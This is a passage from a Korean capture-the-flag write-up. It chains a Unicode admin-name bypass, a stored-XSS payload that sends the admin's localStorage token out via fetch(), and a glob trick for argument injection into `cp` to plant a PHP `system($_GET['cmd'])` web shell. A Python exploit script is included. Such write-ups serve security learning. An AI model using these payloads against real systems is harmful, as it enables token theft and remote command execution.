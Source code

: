 ### Argument Injection
AdminController에서 `cp` 명령어를 사용하는데 대부분의 셸 메타문자를 필터링하지만 `-`를 사용할 수 있으므로, 아래와 같은 플래그를 사용하여 Argument Injection이 가능합니다. 따라서 정적 파일을 서빙하는 디렉토리에 PHP 파일을 생성하면 웹 셸을 이용하여 명령어를 실행시킬 수 있습니다.
```
-t, --target-directory=DIRECTORY: 파일을 특정 디렉토리에 복사합니다.
-S, --suffix=SUFFIX: 백업 파일의 접미사를 지정할 때 사용됩니다.
```
하지만 suffix를 설정하는 부분에서 필터링에 의해 `.`을 사용할 수 없다는 문제점이 있습니다. 이는 glob 패턴을 이용하여 `--suffix=index[--0]php`와 같은 방법으로 우회할 수 있습니다. `.`이 아스키 코드를 기준으로 `-`와 `0` 사이에 있기 때문에 `index.php`가 suffix로 붙을 수 있습니다. 옵션 부분에서도 이런 glob 문자가 동작하는 것은 다른 갓갓 해커님 덕분에 처음 알았습니다. ㄷㄷ

## 익스플로잇
### 익스플로잇 시나리오
1. 유니코드를 이용하여 `..\admin` 유저를 생성합니다.
2. localStroage에 있는 admin의 토큰을 탈취하는 스크립트를 업로드합니다.
3. PHP 웹 셸 업로드를 위해서 PHP 코드를 업로드 합니다.
4. report 기능을 통해 admin 토큰을 탈취합니다.
5. AdminController에서 `file_exists()`로 검증 하는 부분이 있으므로, Argument Injection 페이로드 부분과 같은 이름의 유저를 생성합니다.
6. 탈취한 admin 토큰으로 `cp` 명령어를 실행시킵니다.
7. 웹 셸을 통해 플래그를 획득합니다.

### 익스플로잇 코드
아래는 admin 토큰을 탈취하는 스크립트와 PHP 웹 셸을 업로드하는 코드입니다.
{% raw %}
```python

from requests import Session

URL = "http://lokalhost:8001"

admin_bypass_user = '{"username":"\\u002e\\u002e\\\\\\u0061dmin", "password":"123456"}'
REQ_BIN = ''
xss_files = {
    "file": ("tmp.txt", f"<html><script>fetch('{REQ_BIN}'.concat(localStorage['auth_token']))</script></html>", "text/plain")
}
php_files = {
    "file": ("tmp.txt", '<?php echo system($_GET["cmd"]);?>', "text/plain")
}

with Session() as sess:
    res = sess.post(f"{URL}/api/register", data=admin_bypass_user, headers={"Content-Type": "application/json"})
    res = sess.post(f"{URL}/api/login", data=admin_bypass_user, headers={"Content-Type": "application/json"})
    TOKEN = res.json()['token']
    print(TOKEN)
    res = sess.post(f"{URL}/api/upload",headers={"Authorization":f"Bearer {TOKEN}"}, files=xss_files)
    XSS_PATH = res.json()['path']
    print(XSS_PATH)
    res = sess.post(f"{URL}/api/upload",headers={"Authorization":f"Bearer {TOKEN}"}, files=php_files)
    PHP_SHELL_PATH = res.json()['path']
    print(PHP_SHELL_PATH)
    res = sess.post(f"{URL}/api/admin/report" ,headers={"Authorization":f"Bearer {TOKEN}"}, data={"url": f"http://asd:asd@app/api/announcement/{XSS_PATH}"})
    print(res.text)
    print("[+] Check your server")
```

```python
from requests import Session
```